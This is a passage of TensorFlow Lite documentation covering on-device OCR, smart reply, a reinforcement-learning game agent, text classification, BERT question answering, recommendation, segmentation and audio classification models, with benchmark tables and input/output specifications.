as an OCR pipeline to recognize text characters.

## Get started


If you are new to TensorFlow Lite and are working with Android, we recommend
exploring the following example application that can help you get started.

<a class="button button-primary" href="https://github.com/tensorflow/examples/tree/master/lite/examples/optical_character_recognition/android">Android
example</a>

If you are using a platform other than Android, or you are already familiar with
the [TensorFlow Lite APIs](https://www.tensorflow.org/api_docs/python/tf/lite),
you can download the models from [TF Hub](https://tfhub.dev/).

## How it works

OCR tasks are often broken down into 2 stages. First, we use a text detection
model to detect the bounding boxes around possible texts. Second, we feed
processed bounding boxes into a text recognition model to determine specific
characters inside the bounding boxes (we also need to do Non-Maximal Supression,
perspective transformation and etc. beforing text recoginition). In our case,
both models are from TensorFlow Hub and they are FP16 quantized models.

## Performance benchmarks

Performance benchmark numbers are generated with the tool described
[here](https://www.tensorflow.org/lite/performance/benchmarks).

<table>
  <thead>
    <tr>
      <th>Model Name</th>
      <th>Model size </th>
      <th>Device </th>
      <th>CPU</th>
      <th>GPU</th>
    </tr>
  </thead>
  <tr>
    <td>
      <a href="https://tfhub.dev/sayakpaul/lite-model/east-text-detector/fp16/1">Text Detection</a>
    </td>
    <td>45.9 Mb</td>
     <td>Pixel 4 (Android 10)</td>
     <td>181.93ms*</td>
     <td>89.77ms*</td>
  </tr>
  <tr>
    <td>
      <a href="https://tfhub.dev/tulasiram58827/lite-model/keras-ocr/float16/2">Text Recognition</a>
    </td>
    <td>16.8 Mb</td>
     <td>Pixel 4 (Android 10)</td>
     <td>338.33ms*</td>
     <td>N/A**</td>
  </tr>
</table>

\* 4 threads used.

\** this model could not use GPU delegate since we need TensorFlow ops to run it

## Inputs

The text detection model accepts a 4-D `float32` Tensor of (1, 320, 320, 3) as
input.

The text recognition model accepts a 4-D `float32` Tensor of (1, 31, 200, 1) as
input.

## Outputs

The text detection model returns a 4-D `float32` Tensor of shape (1, 80, 80, 5)
as bounding box and a 4-D `float32` Tensor of shape (1,80, 80, 5) as detection
score.

The text recognition model returns a 2-D `float32` Tensor of shape (1, 48) as
the mapping indices to the alphabet list '0123456789abcdefghijklmnopqrstuvwxyz'

## Limitations

*   The current
    [text recognition model](https://tfhub.dev/tulasiram58827/lite-model/keras-ocr/float16/2)
    is trained using synthetic data with English letters and numbers, so only
    English is supported.

*   The models are not general enough for OCR in the wild (say, random images
    taken by a smartphone camera in a low lighting condition).

So we have chosen 3 Google product logos only to demonstrate how to do OCR with
TensorFlow Lite. If you are looking for a ready-to-use production-grade OCR
product, you should consider
[Google ML Kit](https://developers.google.com/ml-kit/vision/text-recognition).
ML Kit, which uses TFLite underneath, should be sufficient for most OCR use
cases, but there are some cases where you may want to build your own OCR
solution with TFLite. Some examples are:

*   You have your own text detection/recognition TFLite models that you would
    like to use
*   You have special business requirements (i.e., recognizing texts that are
    upside down) and need to customize the OCR pipeline
*   You want to support languages not covered by ML Kit
*   Your target user devices don’t necessarily have Google Play services
    installed

## References

*   OpenCV text detection/recognition example:
    https://github.com/opencv/opencv/blob/master/samples/dnn/text_detection.cpp
*   OCR TFLite community project by community contributors:
    https://github.com/tulasiram58827/ocr_tflite
*   OpenCV text detection:
    https://www.pyimagesearch.com/2018/08/20/opencv-text-detection-east-text-detector/
*   Deep Learning based Text Detection Using OpenCV:
    https://learnopencv.com/deep-learning-based-text-detection-using-opencv-c-python/
# Smart reply


## Get started

Our smart reply model generates reply suggestions based on chat messages. The
suggestions are intended to be contextually relevant, one-touch responses that
help the user to easily reply to an incoming message.

<a class="button button-primary" href="https://tfhub.dev/tensorflow/lite-model/smartreply/1/default/1?lite-format=tflite">Download
starter model</a>

### Sample application

There is a TensorFlow Lite sample application that demonstrates the smart reply
model on Android.

<a class="button button-primary" href="https://github.com/tensorflow/examples/tree/master/lite/examples/smart_reply/android">View
Android example</a>

Read the
[GitHub page](https://github.com/tensorflow/examples/tree/master/lite/examples/smart_reply/android/)
to learn how the app works. Inside this project, you will also learn how to
build an app with custom C++ ops.

## How it works

The model generates reply suggestions to conversational chat messages.

The on-device model comes with several benefits. It is:
<ul>
  <li>Fast: The model resides on the device and does not require internet connectivity. Thus, inference is very fast and has an average latency of only a few milliseconds.</li>
  <li>Resource efficient: The model has a small memory footprint on the device.</li>
  <li>Privacy-friendly: User data never leaves the device.</li>
</ul>

## Example output


## Read more about this

<ul>
  <li><a href="https://arxiv.org/pdf/1708.00630.pdf">Research paper</a></li>
  <li><a href="https://github.com/tensorflow/examples/tree/master/lite/examples/smart_reply/android">Source code</a></li>
</ul>

## Users

<ul>
  <li><a href="https://www.blog.google/products/gmail/save-time-with-smart-reply-in-gmail/">Gmail</a></li>
  <li><a href="https://www.blog.google/products/gmail/computer-respond-to-this-email/">Inbox</a></li>
  <li><a href="https://blog.google/products/allo/google-allo-smarter-messaging-app/">Allo</a></li>
  <li><a href="https://research.googleblog.com/2017/02/on-device-machine-intelligence.html">Smart Replies on Android Wear</a></li>
</ul>
# Reinforcement Learning

Play a board game against an agent, which is trained using reinforcement
learning and deployed with TensorFlow Lite.

## Get started


If you are new to TensorFlow Lite and are working with Android, we recommend
exploring the following example application that can help you get started.

<a class="button button-primary" href="https://github.com/tensorflow/examples/tree/master/lite/examples/reinforcement_learning/android">Android
example</a>

If you are using a platform other than Android, or you are already familiar with
the [TensorFlow Lite APIs](https://www.tensorflow.org/api_docs/python/tf/lite),
you can download our trained model.

<a class="button button-primary" href="https://github.com/tensorflow/examples/blob/master/lite/examples/reinforcement_learning/android/app/src/main/assets/planestrike_tf.tflite">Download
model</a>

## How it works

The model is built for a game agent to play a small board game called 'Plane
Strike'. For a quick introduction of this game and its rules, please refer to
this
[README](https://github.com/tensorflow/examples/tree/master/lite/examples/reinforcement_learning/android).

Underneath the app's UI, we have built an agent that plays against the human
player. The agent is a 3-layer MLP that takes the board state as input and
outputs the predicted score for each of the 64 possible board cells. The model
is trained using policy gradient (REINFORCE) and you can find the training code
[here](https://github.com/tensorflow/examples/blob/master/lite/examples/reinforcement_learning/ml).
After training the agent, we convert the model into TFLite and deploy it in the
Android app.

During the actual game play in the Android app, when it's the agent's turn to
take action, the agent looks at the human player's board state (the board at the
bottom), which contains information about previous successful and unsuccessful
strikes (hits and misses), and uses the trained model to predict where to strike
next, so that it can finish the game before the human player does.

## Performance benchmarks

Performance benchmark numbers are generated with the tool described
[here](https://www.tensorflow.org/lite/performance/benchmarks).

<table>
  <thead>
    <tr>
      <th>Model Name</th>
      <th>Model size </th>
      <th>Device </th>
      <th>CPU</th>
    </tr>
  </thead>
  <tr>
    <td rowspan = 2>
      <a href="https://github.com/tensorflow/examples/blob/master/lite/examples/reinforcement_learning/android/app/src/main/assets/planestrike.tflite">Policy Gradient</a>
    </td>
    <td rowspan = 2>
      84 Kb
    </td>
    <td>Pixel 3 (Android 10) </td>
    <td>0.01ms*</td>
  </tr>
   <tr>
     <td>Pixel 4 (Android 10) </td>
    <td>0.01ms*</td>
  </tr>
</table>

\* 1 threads used.

## Inputs

The model accepts a 3-D `float32` Tensor of (1, 8, 8) as the board state.

## Outputs

The model returns a 2-D `float32` Tensor of shape (1,64) as the predicted scores
for each of the 64 possible strike positions.

## Train your own model

You could train your own model for a larger/smaller board by change the
`BOARD_SIZE` parameter in the
[training code](https://github.com/tensorflow/examples/blob/master/lite/examples/reinforcement_learning/ml).
# Text classification

Use a TensorFlow Lite model to category a paragraph into predefined groups.

Note: (1) To integrate an existing model, try
[TensorFlow Lite Task Library](https://www.tensorflow.org/lite/inference_with_metadata/task_library/nl_classifier).
(2) To customize a model, try
[TensorFlow Lite Model Maker](https://www.tensorflow.org/lite/tutorials/model_maker_text_classification).

## Get started


If you are new to TensorFlow Lite and are working with Android, we recommend
exploring the guide of
[TensorFLow Lite Task Library](../../inference_with_metadata/task_library/nl_classifier)
to integrate text classification models within just a few lines of code. You can
also integrate the model using the
[TensorFlow Lite Interpreter Java API](../../guide/inference#load_and_run_a_model_in_java).

The Android example below demonstrates the implementation for both methods as
[lib_task_api](https://github.com/tensorflow/examples/tree/master/lite/examples/text_classification/android/lib_task_api)
and
[lib_interpreter](https://github.com/tensorflow/examples/tree/master/lite/examples/text_classification/android/lib_interpreter),
respectively.

<a class="button button-primary" href="https://github.com/tensorflow/examples/tree/master/lite/examples/text_classification/android">Android
example</a>

If you are using a platform other than Android, or you are already familiar with
the TensorFlow Lite APIs, you can download our starter text classification
model.

<a class="button button-primary" href="https://storage.googleapis.com/download.tensorflow.org/models/tflite/text_classification/text_classification_v2.tflite">Download
starter model</a>

## How it works

Text classification categorizes a paragraph into predefined groups based on its
content.

This pretrained model predicts if a paragraph's sentiment is positive or
negative. It was trained on
[Large Movie Review Dataset v1.0](http://ai.stanford.edu/~amaas/data/sentiment/)
from Mass et al, which consists of IMDB movie reviews labeled as either positive
or negative.

Here are the steps to classify a paragraph with the model:

1.  Tokenize the paragraph and convert it to a list of word ids using a
    predefined vocabulary.
1.  Feed the list to the TensorFlow Lite model.
1.  Get the probability of the paragraph being positive or negative from the
    model outputs.

### Note

*   Only English is supported.
*   This model was trained on movie reviews dataset so you may experience
    reduced accuracy when classifying text of other domains.

## Performance benchmarks

Performance benchmark numbers are generated with the tool
[described here](https://www.tensorflow.org/lite/performance/benchmarks).

<table>
  <thead>
    <tr>
      <th>Model Name</th>
      <th>Model size </th>
      <th>Device </th>
      <th>CPU</th>
    </tr>
  </thead>
  <tr>
    <td rowspan = 3>
      <a href="https://storage.googleapis.com/download.tensorflow.org/models/tflite/text_classification/text_classification_v2.tflite">Text Classification</a>
    </td>
    <td rowspan = 3>
      0.6 Mb
    </td>
    <td>Pixel 3 (Android 10) </td>
    <td>0.05ms*</td>
  </tr>
   <tr>
     <td>Pixel 4 (Android 10) </td>
    <td>0.05ms*</td>
  </tr>
   <tr>
     <td>iPhone XS (iOS 12.4.1) </td>
    <td>0.025ms** </td>
  </tr>
</table>

\* 4 threads used.

\*\* 2 threads used on iPhone for the best performance result.

## Example output

| Text                                       | Negative (0) | Positive (1) |
| ------------------------------------------ | ------------ | ------------ |
| This is the best movie I’ve seen in recent | 25.3%        | 74.7%        |
: years. Strongly recommend it!              :              :              :
| What a waste of my time.                   | 72.5%        | 27.5%        |

## Use your training dataset

Follow this
[tutorial](https://github.com/tensorflow/examples/tree/master/tensorflow_examples/lite/model_maker/demo/text_classification.ipynb)
to apply the same technique used here to train a text classification model using
your own datasets. With the right dataset, you can create a model for use cases
such as document categorization or toxic comments detection.

## Read more about text classification

*   [Word embeddings and tutorial to train this model](https://www.tensorflow.org/tutorials/text/word_embeddings)
# BERT Question and Answer

Use a TensorFlow Lite model to answer questions based on the content of a given
passage.

Note: (1) To integrate an existing model, try
[TensorFlow Lite Task Library](https://www.tensorflow.org/lite/inference_with_metadata/task_library/bert_question_answerer).
(2) To customize a model, try
[TensorFlow Lite Model Maker](https://www.tensorflow.org/lite/tutorials/model_maker_question_answer).

## Get started


If you are new to TensorFlow Lite and are working with Android or iOS, we
recommend exploring the following example applications that can help you get
started.

<a class="button button-primary" href="https://github.com/tensorflow/examples/tree/master/lite/examples/bert_qa/android">Android
example</a>
<a class="button button-primary" href="https://github.com/tensorflow/examples/tree/master/lite/examples/bert_qa/ios">iOS
example</a>

If you are using a platform other than Android/iOS, or you are already familiar
with the
[TensorFlow Lite APIs](https://www.tensorflow.org/api_docs/python/tf/lite), you
can download our starter question and answer model.

<a class="button button-primary" href="https://tfhub.dev/tensorflow/lite-model/mobilebert/1/metadata/1?lite-format=tflite">Download
starter model and vocab</a>

For more information about metadata and associated fields (e.g. `vocab.txt`) see
<a href="https://www.tensorflow.org/lite/convert/metadata#read_the_metadata_from_models">Read
the metadata from models</a>.

## How it works

The model can be used to build a system that can answer users’ questions in
natural language. It was created using a pre-trained BERT model fine-tuned on
SQuAD 1.1 dataset.

[BERT](https://github.com/google-research/bert), or Bidirectional Encoder
Representations from Transformers, is a method of pre-training language
representations which obtains state-of-the-art results on a wide array of
Natural Language Processing tasks.

This app uses a compressed version of BERT, MobileBERT, that runs 4x faster and
has 4x smaller model size.

[SQuAD](https://rajpurkar.github.io/SQuAD-explorer/), or Stanford Question
Answering Dataset, is a reading comprehension dataset consisting of articles
from Wikipedia and a set of question-answer pairs for each article.

The model takes a passage and a question as input, then returns a segment of the
passage that most likely answers the question. It requires semi-complex
pre-processing including tokenization and post-processing steps that are
described in the BERT [paper](https://arxiv.org/abs/1810.04805) and implemented
in the sample app.

## Performance benchmarks

Performance benchmark numbers are generated with the tool
[described here](https://www.tensorflow.org/lite/performance/benchmarks).

<table>
  <thead>
    <tr>
      <th>Model Name</th>
      <th>Model size </th>
      <th>Device </th>
      <th>CPU</th>
    </tr>
  </thead>
  <tr>
    <td rowspan = 3>
      <a href="https://tfhub.dev/tensorflow/lite-model/mobilebert/1/metadata/1?lite-format=tflite">Mobile Bert</a>
    </td>
    <td rowspan = 3>
      100.5 Mb
    </td>
    <td>Pixel 3 (Android 10) </td>
    <td>123ms*</td>
  </tr>
   <tr>
     <td>Pixel 4 (Android 10) </td>
    <td>74ms*</td>
  </tr>
   <tr>
     <td>iPhone XS (iOS 12.4.1) </td>
    <td>257ms** </td>
  </tr>
</table>

\* 4 threads used.

\*\* 2 threads used on iPhone for the best performance result.

## Example output

### Passage (Input)

> Google LLC is an American multinational technology company that specializes in
> Internet-related services and products, which include online advertising
> technologies, search engine, cloud computing, software, and hardware. It is
> considered one of the Big Four technology companies, alongside Amazon, Apple,
> and Facebook.
>
> Google was founded in September 1998 by Larry Page and Sergey Brin while they
> were Ph.D. students at Stanford University in California. Together they own
> about 14 percent of its shares and control 56 percent of the stockholder
> voting power through supervoting stock. They incorporated Google as a
> California privately held company on September 4, 1998, in California. Google
> was then reincorporated in Delaware on October 22, 2002. An initial public
> offering (IPO) took place on August 19, 2004, and Google moved to its
> headquarters in Mountain View, California, nicknamed the Googleplex. In August
> 2015, Google announced plans to reorganize its various interests as a
> conglomerate called Alphabet Inc. Google is Alphabet's leading subsidiary and
> will continue to be the umbrella company for Alphabet's Internet interests.
> Sundar Pichai was appointed CEO of Google, replacing Larry Page who became the
> CEO of Alphabet.

### Question (Input)

> Who is the CEO of Google?

### Answer (Output)

> Sundar Pichai

## Read more about BERT

*   Academic paper: [BERT: Pre-training of Deep Bidirectional Transformers for
    Language Understanding](https://arxiv.org/abs/1810.04805)
*   [Open-source implementation of BERT](https://github.com/google-research/bert)
# Recommendation

<table class="tfo-notebook-buttons" align="left">
  <td>
    <a target="_blank" href="https://www.tensorflow.org/lite/examples/recommendation/overview">View on TensorFlow.org</a>
  </td>
  <td>
    <a target="_blank" href="https://colab.research.google.com/github/tensorflow/examples/blob/master/lite/examples/recommendation/ml/ondevice_recommendation.ipynb">Run in Google Colab</a>
  </td>
  <td>
    <a target="_blank" href="https://github.com/tensorflow/examples/blob/master/lite/examples/recommendation/ml/ondevice_recommendation.ipynb">View source on GitHub</a>
  </td>
</table>

Personalized recommendations are widely used for a variety of use cases on
mobile devices, such as media content retrieval, shopping product suggestion,
and next app recommendation. If you are interested in providing personalized
recommendations in your application while respecting user privacy, we recommend
exploring the following example and toolkit.

Note: To customize a model, try
[TensorFlow Lite Model Maker](https://www.tensorflow.org/lite/guide/model_maker).

## Get started


We provide a TensorFlow Lite sample application that demonstrates how to
recommend relevant items to users on Android.

<a class="button button-primary" href="https://github.com/tensorflow/examples/tree/master/lite/examples/recommendation/android">Android
example</a>

If you are using a platform other than Android, or you are already familiar with
the TensorFlow Lite APIs, you can download our starter recommendation model.

<a class="button button-primary" href="https://storage.googleapis.com/download.tensorflow.org/models/tflite/recommendation/20200720/recommendation.tar.gz">Download
starter model</a>

We also provide training script in Github to train your own model in a
configurable way.

<a class="button button-primary" href="https://github.com/tensorflow/examples/tree/master/lite/examples/recommendation/ml">Training
code</a>

## Understand the model architecture

We leverage a dual-encoder model architecture, with context-encoder to encode
sequential user history and label-encoder to encode predicted recommendation
candidate. Similarity between context and label encodings is used to represent
the likelihood that the predicted candidate meets the user's needs.

Three different sequential user history encoding techniques are provided with
this code base:

*   Bag-of-words encoder (BOW): averaging user activities' embeddings without
    considering context order.
*   Convolutional neural network encoder (CNN): applying multiple layers of
    convolutional neural networks to generate context encoding.
*   Recurrent neural network encoder (RNN): applying recurrent neural network to
    encode context sequence.

To model each user activity, we could use the ID of the activity item (ID-based)
, or multiple features of the item (feature-based), or a combination of both.
The feature-based model utilizing multiple features to collectively encode
users’ behavior. With this code base, you could create either ID-based or
feature-based models in a configurable way.

After training, a TensorFlow Lite model will be exported which can directly
provide top-K predictions among the recommendation candidates.

## Use your training data

In addition to the trained model, we provide an open-sourced
[toolkit in GitHub](https://github.com/tensorflow/examples/tree/master/lite/examples/recommendation/ml)
to train models with your own data. You can follow this tutorial to learn how to
use the toolkit and deploy trained models in your own mobile applications.

Please follow this
[tutorial](https://github.com/tensorflow/examples/tree/master/lite/examples/recommendation/ml/ondevice_recommendation.ipynb)
to apply the same technique used here to train a recommendation model using your
own datasets.

## Examples

As examples, we trained recommendation models with both ID-based and
feature-based approaches. The ID-based model takes only the movie IDs as input,
and the feature-based model takes both movie IDs and movie genre IDs as inputs.
Please find the following inputs and outputs examples.

Inputs

*   Context movie IDs:

    *   The Lion King (ID: 362)
    *   Toy Story (ID: 1)
    *   (and more)

*   Context movie genre IDs:

    *   Animation (ID: 15)
    *   Children's (ID: 9)
    *   Musical (ID: 13)
    *   Animation (ID: 15)
    *   Children's (ID: 9)
    *   Comedy (ID: 2)
    *   (and more)

Outputs:

*   Recommended movie IDs:
    *   Toy Story 2 (ID: 3114)
    *   (and more)

Note: The pretrained model is built based on
[MovieLens](https://grouplens.org/datasets/movielens/1m/) dataset for research
purpose.

## Performance benchmarks

Performance benchmark numbers are generated with the tool
[described here](https://www.tensorflow.org/lite/performance/benchmarks).

<table>
  <thead>
    <tr>
      <th>Model Name</th>
      <th>Model Size </th>
      <th>Device </th>
      <th>CPU</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <tr>
        <td rowspan = 3>
          <a href="https://storage.googleapis.com/download.tensorflow.org/models/tflite/recommendation/20200720/model.tar.gz">recommendation (movie ID as input)</a>
        </td>
        <td rowspan = 3>
          0.52 Mb
        </td>
        <td>Pixel 3</td>
        <td>0.09ms*</td>
      </tr>
       <tr>
         <td>Pixel 4 </td>
        <td>0.05ms*</td>
      </tr>
    </tr>
    <tr>
      <tr>
        <td rowspan = 3>
          <a href="https://storage.googleapis.com/download.tensorflow.org/models/tflite/recommendation/20210317/recommendation_cnn_i10i32o100.tflite">recommendation (movie ID and movie genre as inputs)</a>
        </td>
        <td rowspan = 3>
          1.3 Mb
        </td>
        <td>Pixel 3</td>
        <td>0.13ms*</td>
      </tr>
       <tr>
         <td>Pixel 4 </td>
        <td>0.06ms*</td>
      </tr>
    </tr>
  </tbody>
</table>

\* 4 threads used.

## Use your training data

In addition to the trained model, we provide an open-sourced
[toolkit in GitHub](https://github.com/tensorflow/examples/tree/master/lite/examples/recommendation/ml)
to train models with your own data. You can follow this tutorial to learn how to
use the toolkit and deploy trained models in your own mobile applications.

Please follow this
[tutorial](https://github.com/tensorflow/examples/tree/master/lite/examples/recommendation/ml/ondevice_recommendation.ipynb)
to apply the same technique used here to train a recommendation model using your
own datasets.

## Tips for model customization with your data

The pretrained model integrated in this demo application is trained with
[MovieLens](https://grouplens.org/datasets/movielens/1m/) dataset, you may want
to modify model configuration based on your own data, such as vocab size,
embedding dims and input context length. Here are a few tips:

*   Input context length: The best input context length varies with datasets. We
    suggest selecting input context length based on how much label events are
    correlated with long-term interests vs short-term context.

*   Encoder type selection: we suggest selecting encoder type based on input
    context length. Bag-of-words encoder works well for short input context
    length (e.g. <10), CNN and RNN encoders bring in more summarization ability
    for long input context length.

*   Using underlying features to represent items or user activities could
    improve model performance, better accommodate fresh items, possibly down
    scale embedding spaces hence reduce memory consumption and more on-device
    friendly.
# Segmentation

Image segmentation is the process of partitioning a digital image into multiple
segments (sets of pixels, also known as image objects). The goal of segmentation
is to simplify and/or change the representation of an image into something that
is more meaningful and easier to analyze.

The following image shows the output of the image segmentation model on Android.
The model will create a mask over the target objects with high accuracy.


Note: To integrate an existing model, try
[TensorFlow Lite Task Library](https://www.tensorflow.org/lite/inference_with_metadata/task_library/image_segmenter).

## Get started

If you are new to TensorFlow Lite and are working with Android or iOS, it is
recommended you explore the following example applications that can help you get
started.

You can leverage the out-of-box API from
[TensorFlow Lite Task Library](../../inference_with_metadata/task_library/image_segmenter)
to integrate image segmentation models within just a few lines of code. You can
also integrate the model using the
[TensorFlow Lite Interpreter Java API](../../guide/inference#load_and_run_a_model_in_java).

The Android example below demonstrates the implementation for both methods as
[lib_task_api](https://github.com/tensorflow/examples/tree/master/lite/examples/image_segmentation/android/lib_task_api)
and
[lib_interpreter](https://github.com/tensorflow/examples/tree/master/lite/examples/image_segmentation/android/lib_interpreter),
respectively.

<a class="button button-primary" href="https://github.com/tensorflow/examples/tree/master/lite/examples/image_segmentation/android">View
Android example</a>

<a class="button button-primary" href="https://github.com/tensorflow/examples/tree/master/lite/examples/image_segmentation/ios">View
iOS example</a>

If you are using a platform other than Android or iOS, or you are already
familiar with the
<a href="https://www.tensorflow.org/api_docs/python/tf/lite">TensorFlow Lite
APIs</a>, you can download our starter image segmentation model.

<a class="button button-primary" href="https://tfhub.dev/tensorflow/lite-model/deeplabv3/1/metadata/2?lite-format=tflite">Download
starter model</a>

## Model description

_DeepLab_ is a state-of-art deep learning model for semantic image segmentation,
where the goal is to assign semantic labels (e.g. person, dog, cat) to every
pixel in the input image.

### How it works

Semantic image segmentation predicts whether each pixel of an image is
associated with a certain class. This is in contrast to
<a href="../object_detection/overview.md">object detection</a>, which detects
objects in rectangular regions, and
<a href="../image_classification/overview.md">image classification</a>, which
classifies the overall image.

The current implementation includes the following features:
<ol>
  <li>DeepLabv1: We use atrous convolution to explicitly control the resolution at which feature responses are computed within Deep Convolutional Neural Networks.</li>
  <li>DeepLabv2: We use atrous spatial pyramid pooling (ASPP) to robustly segment objects at multiple scales with filters at multiple sampling rates and effective fields-of-views.</li>
  <li>DeepLabv3: We augment the ASPP module with image-level feature [5, 6] to capture longer range information. We also include batch normalization [7] parameters to facilitate the training. In particular, we applying atrous convolution to extract output features at different output strides during training and evaluation, which efficiently enables training BN at output stride = 16 and attains a high performance at output stride = 8 during evaluation.</li>
  <li>DeepLabv3+: We extend DeepLabv3 to include a simple yet effective decoder module to refine the segmentation results especially along object boundaries. Furthermore, in this encoder-decoder structure one can arbitrarily control the resolution of extracted encoder features by atrous convolution to trade-off precision and runtime.</li>
</ol>

## Performance benchmarks

Performance benchmark numbers are generated with the tool
[described here](https://www.tensorflow.org/lite/performance/benchmarks).

<table>
  <thead>
    <tr>
      <th>Model Name</th>
      <th>Model size </th>
      <th>Device </th>
      <th>GPU</th>
      <th>CPU</th>
    </tr>
  </thead>
  <tr>
    <td rowspan = 3>
      <a href="https://tfhub.dev/tensorflow/lite-model/deeplabv3/1/metadata/2?lite-format=tflite">Deeplab v3</a>
    </td>
    <td rowspan = 3>
      2.7 Mb
    </td>
    <td>Pixel 3 (Android 10) </td>
    <td>16ms</td>
    <td>37ms*</td>
  </tr>
   <tr>
     <td>Pixel 4 (Android 10) </td>
    <td>20ms</td>
    <td>23ms*</td>
  </tr>
   <tr>
     <td>iPhone XS (iOS 12.4.1) </td>
     <td>16ms</td>
    <td>25ms** </td>
  </tr>
</table>

\* 4 threads used.

\*\* 2 threads used on iPhone for the best performance result.

## Further reading and resources

<ul>
  <li><a href="https://ai.googleblog.com/2018/03/semantic-image-segmentation-with.html">Semantic Image Segmentation with DeepLab in TensorFlow</a></li>
  <li><a href="https://medium.com/tensorflow/tensorflow-lite-now-faster-with-mobile-gpus-developer-preview-e15797e6dee7">TensorFlow Lite Now Faster with Mobile GPUs (Developer Preview)</a></li>
  <li><a href="https://github.com/tensorflow/models/tree/master/research/deeplab">DeepLab: Deep Labelling for Semantic Image Segmentation</a></li>
</ul>
# Audio classification


The task of identifying what an audio represents is called _audio
classification_. An audio classification model is trained to recognize various
audio events. For example, you may train a model to recognize events
representing three different events: clapping, finger snapping, and typing.
TensorFlow Lite provides optimized pre-trained models that you can deploy in
your mobile applications. Learn more about audio classification using TensorFlow
[here](https://www.tensorflow.org/tutorials/audio/simple_audio).

The following image shows the output of the audio classification model on
Android.


Note: (1) To integrate an existing model, try
[TensorFlow Lite Task Library](https://www.tensorflow.org/lite/inference_with_metadata/task_library/audio_classifier).
(2) To customize a model, try
[TensorFlow Lite Model Maker](https://www.tensorflow.org/lite/tutorials/model_maker_audio_classification).

## Get started

If you are new to TensorFlow Lite and are working with Android, we recommend
exploring the following example applications that can help you get started.

You can leverage the out-of-box API from
[TensorFlow Lite Task Library](../../inference_with_metadata/task_library/audio_classifier)
to integrate audio classification models in just a few lines of code. You can
also build your own custom inference pipeline using the
[TensorFlow Lite Support Library](../../inference_with_metadata/lite_support).

The Android example below demonstrates the implementation using the
[TFLite Task Library](https://github.com/tensorflow/examples/tree/master/lite/examples/sound_classification/android)

<a class="button button-primary" href="https://github.com/tensorflow/examples/tree/master/lite/examples/sound_classification/android">View
Android example</a>

<a class="button button-primary" href="https://github.com/tensorflow/examples/tree/master/lite/examples/sound_classification/ios">View
iOS example</a>

If you are using a platform other than Android/iOS, or if you are already
familiar with the
[TensorFlow Lite APIs](https://www.tensorflow.org/api_docs/python/tf/lite),
download the starter model and supporting files (if applicable).

<a class="button button-primary" href="https://tfhub.dev/google/lite-model/yamnet/classification/tflite/1?lite-format=tflite">Download
starter model from TensorFlow Hub</a>

## Model description

YAMNet is an audio event classifier that takes audio waveform as input and makes
independent predictions for each of 521 audio events from the
[AudioSet](https://g.co/audioset) ontology. The model uses the MobileNet v1
architecture and was trained using the AudioSet corpus. This model was
originally released in the TensorFlow Model Garden, where is the model source
code, the original model checkpoint, and more detailed documentation.

### How it works

There are two versions of the YAMNet model converted to TFLite:

*   [YAMNet](https://tfhub.dev/google/yamnet/1) Is the original audio
    classification model, with dynamic input size, suitable for Transfer
    Learning, Web and Mobile deployment. It also has a more complex output.

*   [YAMNet/classification](https://tfhub.dev/google/lite-model/yamnet/classification/tflite/1)
    is a quantized version with a simpler fixed lengh frame input (15600
    samples) and return a single vector of scores for 521 audio event classes.

### Inputs

The model accepts a 1-D `float32` Tensor or NumPy array of length 15600
containing a 0.975 second waveform represented as mono 16 kHz samples in the
range `[-1.0, +1.0]`.

### Outputs

The model returns a 2-D `float32` Tensor of shape (1, 521) containing the
predicted scores for each of the 521 classes in the AudioSet ontology that are
supported by YAMNet. The column index (0-520) of the scores tensor is mapped to
the corresponding AudioSet class name using the YAMNet Class Map, which is
available as an associated file `yamnet_label_list.txt` packed into the model
file. See below for usage.

### Suitable uses

YAMNet can be used

*   as a stand-alone audio event classifier that provides a reasonable baseline
    across a wide variety of audio events.
*   as a high-level feature extractor: the 1024-D embedding output of YAMNet can
    be used as the input features of another model which can then be trained on
    a small amount of data for a particular task. This allows quickly creating
    specialized audio classifiers without requiring a lot of labeled data and
    without having to train a large model end-to-end.
*   as a warm start: the YAMNet model parameters can be used to initialize part
    of a larger model which allows faster fine-tuning and model exploration.

### Limitations

*   YAMNet's classifier outputs have not been calibrated across classes, so you
    cannot directly treat the outputs as probabilities. For any given task, you
    will very likely need to perform a calibration with task-specific data which
    lets you assign proper per-class score thresholds and scaling.
*   YAMNet has been trained on millions of YouTube videos and although these are
    very diverse, there can still be a domain mismatch between the average
    YouTube video and the audio inputs expected for any given task. You should
    expect to do some amount of fine-tuning and calibration to make YAMNet
    usable in any system that you build.

## Model customization

The pre-trained models provided are trained to detect 521 different audio
classes. For a full list of classes, see the labels file in the
<a href="https://github.com/tensorflow/models/blob/master/research/audioset/yamnet/yamnet_class_map.csv">model
repository</a>.

You can use a technique known as transfer learning to re-train a model to
recognize classes not in the original set. For example, you could re-train the
model to detect multiple bird songs. To do this, you will need a set of training
audios for each of the new labels you wish to train. The recommended way is to
use
[TensorFlow Lite Model Maker](https://www.tensorflow.org/lite/tutorials/model_maker_audio_classification)
library which simplifies the process of training a TensorFlow Lite model using
custom dataset, in a few lines of codes. It uses transfer learning to reduce the
amount of required training data and time. You can also learn from
[Transfer learning for audio recognition](https://www.tensorflow.org/tutorials/audio/transfer_learning_audio)
as an example of transfer learning.

## Further reading and resources

Use the following resources to learn more about concepts related to audio
classification:

*   [Audio classification using TensorFlow](https://www.tensorflow.org/tutorials/audio/simple_audio)
*   [Transfer learning for audio recognition](https://www.tensorflow.org/tutorials/audio/transfer_learning_audio)
*   [Audio data augmentation](https://www.tensorflow.org/io/tutorials/audio)
# TensorFlow Lite for Microcontrollers

TensorFlow Lite for Microcontrollers is designed to run machine learning models
on microcontrollers and other devices with only few kilobytes of memory. The
core runtime just fits in 16 KB on an Arm Cortex M3 and can run many basic
models. It doesn't require operating system support, any standard C or C++
libraries, or dynamic memory allocation.

Note: The
[TensorFlow Lite for Microcontrollers Experiments](https://experiments.withgoogle.com/collection/tfliteformicrocontrollers)
features work by developers combining Arduino and TensorFlow to create awesome
experiences and tools. Check out the site for inspiration to create your own
TinyML projects.

## Why microcontrollers are important

Microcontrollers are typically small, low-powered computing devices that are
embedded within hardware that requires basic computation. By bringing machine
learning to tiny microcontrollers, we can boost the intelligence of billions of
devices that we use in our lives, including household appliances and Internet of
Things devices, without relying on expensive hardware or reliable internet
connections, which is often subject to bandwidth and power constraints and
results in high latency. This can also help preserve privacy, since no data
leaves the device. Imagine smart appliances that can adapt to your daily
routine, intelligent industrial sensors that understand the difference between
problems and normal operation, and magical toys that can help kids learn in fun
and delightful ways.

## Supported platforms

TensorFlow Lite for Microcontrollers is written in C++ 11 and requires a 32-bit
platform. It has been tested extensively with many processors based on the
